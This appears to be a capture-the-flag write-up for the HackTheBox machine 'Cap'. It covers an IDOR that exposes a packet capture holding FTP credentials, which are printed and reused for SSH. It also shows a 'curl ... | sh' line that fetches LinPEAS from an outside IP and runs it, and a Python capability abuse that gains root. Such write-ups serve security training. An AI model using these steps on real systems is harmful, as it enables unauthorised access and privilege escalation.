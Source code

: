 # HackTheBox Retired Machine - Cap (Linux)

## Enumeration
```
nmap -sV -sC -Pn <ip addr>
```

Result:
- 21-FTP (vsftpd 3.0.3)
- 22-SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0))
- 80-HTTP (gunicorn)


## Manual Web Crawling
- Possible IDOR on Security Snapshot page
	- Possible IDOR path: /data/[number].
	- Possible numbers are: 0,1,2,3,4,5,6.
  - Other numbers will redirect the user back to dashboard screen
  - Any number that has packet analysis content will be downloaded and inspected.
### Packet Analysis
- Packet Analysis on number 1-3 doesn't really contain any useful information
- Packet Analysis on number 0, contains:
	- Info on a user to access FTP (USER: nathan)
	- Info on password of a user to access FTP (Password: Buck3tH4TF0RM3!)


## Accessing FTP
Use the following credential
```
username: nathan
password: Buck3tH4TF0RM3!
```

## Accessing SSH
We can use the same credentials and the flag is on that user home directory called `user.txt`

### Privilege Escalation from SSH
! We need to find a directory that can be exploited to gain higher privilege !
* * *
1. Setting up LinPEAS in local directory
```
curl -L -O https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
2. Host the local directory that has the LinPEAS
```
sudo python3 -m http.server 80
```
3. From the victim machine, fetch the LinPEAS file without storing it locally
```
curl 10.10.16.41/linpeas.sh | sh
```
4. Let it run
![Running LinPeas](./images/Cap-LinPeas.png)
5. Found the supposed vulnerable files and the capability that can be exploited!
![LinPeas Result.png](./images/Cap-LinPeas2.png)

## Exploiting Python 
```
/usr/bin/python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```
Result:
![Exploit Python Capabilities](./images/Cap-Python.png)

Try to get into the parent directory, outside of the current working directory which is `/home/nathan/`

Root flag will be available at: `/root/root.txt`
